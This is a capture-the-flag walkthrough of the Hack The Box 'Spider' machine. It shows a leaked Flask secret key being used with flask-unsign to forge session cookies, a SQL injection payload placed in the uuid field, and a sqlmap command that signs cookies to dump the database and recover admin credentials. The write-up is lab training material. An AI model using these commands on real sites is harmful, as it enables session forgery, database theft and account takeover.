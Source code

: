 What should catch our eye is the `SECRET_KEY` key in the dictionary, with a value of `Sup3rUnpredictable``K3yPleas3Leav3mdanfe12332942`. The way Flask signs session cookies is through a three part structure, separated by periods. 

![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/Spider_3.png?raw=true) 

The left side contains session data which is base64 encoded; this session data varies depending upon the website. The middle is self explanatory. The last part is determined through creating a Sha-1 hash of our session data, current timestamp, and the secret key. So now that we have the secret key, we can deconstruct our cookie for more information. We will use the `flask-unsign` tool for this which can be installed by `pip3 install flask-unsign`. We can then grab our session cookie (by viewing it through inspect elements) and use flask-unsign to decode it. Run the command 
`flask-unsign --decode -c '<cookie>' --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'`
This should return something along the lines of 

````bash
flask-unsign --decode -c '<cookie>' --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'

{'cart_items': [], 'uuid': '19bb7b62-a29f-4aa4-98de-7381da6c02d5'}
````

Remember how we thought that the website used a database to match our UUID with a username? We can now test for SQL inject now that we have direct access to our UUID. Run this command 
```bash
flask-unsign --sign -c "{'cart_items': [], 'uuid': '<your uuid from decoding cookie here>\'-- a'}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
```
What we are doing with this is essentially just commenting the rest of the MySql query once our UUID is passed in. Once we create that cookie, replace our current cookie with it, and refresh the home page. We are still logged in. So we can confirm there is some SQL injection occuring here. 
<br>
<br>
We can use this vulnerability to its fullest extent with the tool `sqlmap`, a tool that automates Sql injection. Run this command 
```bash
sqlmap http://spider.htb --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump
```
Sqlmap has an eval option which evaluates a one line python statement. In this command, we are using sqlmap to create a flask cookie, and then perform Sql injection with the cookie to try and dump the database. When the command prompts for a processing of a cookie (should be the first prompt), say yes. Say no to the merging of cookies because that will make our injection fail. Url encoding of the cookie doesn't really matter if we say yes or no. Once this command is done, we should find this interesting info:

```
1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331
```

Considering how this is the first and only hard-coded user, we should investigate this. Unfortunately we cannot SSH with those creds, but we do get to log into the user `chiv` on the website, who is actually an admin user! We can now further enumerate the website. We can access the `/main` page which has some interesting features.
